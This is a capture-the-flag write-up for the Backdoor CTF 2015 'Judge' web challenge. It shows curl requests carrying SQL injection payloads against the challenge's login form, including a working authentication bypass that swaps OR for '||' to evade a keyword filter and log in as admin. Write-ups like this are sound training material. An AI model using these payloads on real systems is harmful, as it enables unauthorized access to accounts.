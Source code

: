 ```yaml
---
layout: post
title: "Backdoor CTF 2015 Judge"
date: 2015-04-02 16:15:28 -0400
author: [barrebas]
comments: true
categories: [backdoor]
---
```


### Solved by barrebas

A web challenge! For 100 points, we we're asked to log in as `admin`.

Pointing a browser to the challenge site gave us the option to login, or register. I decided to register `testz0r:testz0r` and logged in. The login then asked me to login as admin. Well, I had no password for admin. I went back to the register page, thinking there was a SQLi there. That might allow me to inject into the INSERT INTO statement and update the admin's password. Alas, no dice.

I again fired up `curl` and tried to get some SQLi going on the login form.

```bash
curl http://hack.bckdr.in/JUDGE/index.php --data "username=testz0r' or 'a'='a&password=testz0r"
<!DOCTYPE html>

<html>

<head>
<title>Login</title>
</head>

<body>
An Error occured
```

After messing around for a while, I remembered that sometimes, keywords like `OR` and `AND` are filtered. I tried to substitute `OR` for `||` and whadda-ya-know:

```bash
$ curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin'||'1&password=testz0r"
<!DOCTYPE html>

<html>

<head>
<title>Login</title>
</head>

<body>
Flag is [REDACTED]
```

Done! One filter bypass was all it took.

